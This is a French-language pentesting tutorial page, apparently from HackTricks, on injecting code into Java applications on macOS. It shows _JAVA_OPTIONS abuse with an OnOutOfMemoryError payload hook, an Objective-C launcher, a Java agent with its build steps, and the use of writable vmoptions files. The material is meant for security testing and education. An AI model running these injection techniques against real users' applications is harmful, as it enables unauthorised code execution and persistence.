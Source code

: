 # Injection d'applications Java sur macOS

{{#include ../../../banners/hacktricks-training.md}}

## Énumération

Trouvez les applications Java installées sur votre système. Il a été remarqué que les applications Java dans le **Info.plist** contiendront certains paramètres java qui contiennent la chaîne **`java.`**, vous pouvez donc rechercher cela :
```bash
# Search only in /Applications folder
sudo find /Applications -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null

# Full search
sudo find / -name 'Info.plist' -exec grep -l "java\." {} \; 2>/dev/null
```
## \_JAVA_OPTIONS

La variable d'environnement **`_JAVA_OPTIONS`** peut être utilisée pour injecter des paramètres java arbitraires dans l'exécution d'une application java compilée :
```bash
# Write your payload in a script called /tmp/payload.sh
export _JAVA_OPTIONS='-Xms2m -Xmx5m -XX:OnOutOfMemoryError="/tmp/payload.sh"'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"
```
Pour l'exécuter en tant que nouveau processus et non en tant qu'enfant du terminal actuel, vous pouvez utiliser :
```objectivec
#import <Foundation/Foundation.h>
// clang -fobjc-arc -framework Foundation invoker.m -o invoker

int main(int argc, const char * argv[]) {
@autoreleasepool {
// Specify the file path and content
NSString *filePath = @"/tmp/payload.sh";
NSString *content = @"#!/bin/bash\n/Applications/iTerm.app/Contents/MacOS/iTerm2";

NSError *error = nil;

// Write content to the file
BOOL success = [content writeToFile:filePath
atomically:YES
encoding:NSUTF8StringEncoding
error:&error];

if (!success) {
NSLog(@"Error writing file at %@\n%@", filePath, [error localizedDescription]);
return 1;
}

NSLog(@"File written successfully to %@", filePath);

// Create a new task
NSTask *task = [[NSTask alloc] init];

/// Set the task's launch path to use the 'open' command
[task setLaunchPath:@"/usr/bin/open"];

// Arguments for the 'open' command, specifying the path to Android Studio
[task setArguments:@[@"/Applications/Android Studio.app"]];

// Define custom environment variables
NSDictionary *customEnvironment = @{
@"_JAVA_OPTIONS": @"-Xms2m -Xmx5m -XX:OnOutOfMemoryError=/tmp/payload.sh"
};

// Get the current environment and merge it with custom variables
NSMutableDictionary *environment = [NSMutableDictionary dictionaryWithDictionary:[[NSProcessInfo processInfo] environment]];
[environment addEntriesFromDictionary:customEnvironment];

// Set the task's environment
[task setEnvironment:environment];

// Launch the task
[task launch];
}
return 0;
}
```
Cependant, cela déclenchera une erreur sur l'application exécutée, une autre méthode plus discrète consiste à créer un agent Java et à utiliser :
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
> [!CAUTION]
> Créer l'agent avec une **version Java différente** de l'application peut faire planter l'exécution de l'agent et de l'application

Où l'agent peut être :
```java:Agent.java
import java.io.*;
import java.lang.instrument.*;

public class Agent {
public static void premain(String args, Instrumentation inst) {
try {
String[] commands = new String[] { "/usr/bin/open", "-a", "Calculator" };
Runtime.getRuntime().exec(commands);
}
catch (Exception err) {
err.printStackTrace();
}
}
}
```
Pour compiler l'agent, exécutez :
```bash
javac Agent.java # Create Agent.class
jar cvfm Agent.jar manifest.txt Agent.class # Create Agent.jar
```
Avec `manifest.txt` :
```
Premain-Class: Agent
Agent-Class: Agent
Can-Redefine-Classes: true
Can-Retransform-Classes: true
```
Et ensuite, exportez la variable d'environnement et exécutez l'application Java comme :
```bash
export _JAVA_OPTIONS='-javaagent:/tmp/j/Agent.jar'
"/Applications/Burp Suite Professional.app/Contents/MacOS/JavaApplicationStub"

# Or

open --env "_JAVA_OPTIONS='-javaagent:/tmp/Agent.jar'" -a "Burp Suite Professional"
```
## fichier vmoptions

Ce fichier prend en charge la spécification des **params Java** lors de l'exécution de Java. Vous pourriez utiliser certains des trucs précédents pour changer les params java et **faire exécuter des commandes arbitraires** au processus.\
De plus, ce fichier peut également **inclure d'autres** avec le répertoire `include`, vous pourriez donc également changer un fichier inclus.

Encore plus, certaines applications Java **chargeront plus d'un fichier `vmoptions`**.

Certaines applications comme Android Studio indiquent dans leur **sortie où elles recherchent** ces fichiers, comme :
```bash
/Applications/Android\ Studio.app/Contents/MacOS/studio 2>&1 | grep vmoptions

2023-12-13 19:53:23.920 studio[74913:581359] fullFileName is: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] fullFileName exists: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.920 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app/Contents/bin/studio.vmoptions
2023-12-13 19:53:23.921 studio[74913:581359] parseVMOptions: /Applications/Android Studio.app.vmoptions
2023-12-13 19:53:23.922 studio[74913:581359] parseVMOptions: /Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
2023-12-13 19:53:23.923 studio[74913:581359] parseVMOptions: platform=20 user=1 file=/Users/carlospolop/Library/Application Support/Google/AndroidStudio2022.3/studio.vmoptions
```
S'ils ne le font pas, vous pouvez facilement vérifier cela avec :
```bash
# Monitor
sudo eslogger lookup | grep vmoption # Give FDA to the Terminal

# Launch the Java app
/Applications/Android\ Studio.app/Contents/MacOS/studio
```
Notez à quel point il est intéressant qu'Android Studio dans cet exemple essaie de charger le fichier **`/Applications/Android Studio.app.vmoptions`**, un endroit où tout utilisateur du **`groupe admin` a un accès en écriture.** 

{{#include ../../../banners/hacktricks-training.md}}
